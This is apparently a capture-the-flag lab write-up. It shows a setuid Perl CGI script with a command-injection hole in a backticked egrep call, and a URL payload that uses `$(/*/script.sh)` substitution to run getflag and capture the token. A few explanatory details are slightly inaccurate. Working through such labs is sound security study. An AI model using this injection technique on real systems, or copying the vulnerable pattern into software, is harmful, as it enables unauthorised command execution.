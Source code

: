 In this level, we have a `setuid` perl script : 
```
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

As in level04, we go and check the following URL : `http://192.168.43.70:4646/`
It only prints `..`.

The function `t` takes 2 arguments, `nn` and `xx` and applies 2 regex to `xx` :
one that turns every character to uppercase, the other that removes every
whitespace and the character that comes right after.   

Then, it assigns to `output` the return of `egrep` function (same as `grep`,
except it takes a regex as parameter) for every match with `xx` it finds in a 
`/tmp/xd` file.

Next, it iterates over `output`, split each line with ":" character, and checks
if what is after ":" contains `nn` parameter. If yes, it returns , else 0.

Overall, what we need to do is not to follow what the script does, but to take
advantage of the `egrep` function by passing our `getflag` to it, so it executes
it no matter what `egrep` returns. But it is tricky, because `xx` argument is
being uppercase and all whitespaces removed.

We create an uppercase script. `cat /tmp/SCRIPT.SH` :

> getflag > /tmp/flag

Instead of putting `sh script.sh` we put `/*/script.sh` so it can look in every
directory for a SCRIPT.SH to executes : 

`http://192.168.43.70:4646/?x=$(/*/script.sh)`

`cat /tmp/flag` :
> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

# Sources : 

Perl's sigils explained : 
- https://stackoverflow.com/questions/2731542/what-is-the-difference-between-this-that-and-those-in-perl

About `source` command : 
- https://www.baeldung.com/linux/source-command

Perl Basics : 
- https://perldoc.perl.org/perlintro#Safety-net

`tr` function : 
- http://softpanorama.org/Scripting/Perlorama/Functions/String_operations_in_perl/tr.shtml
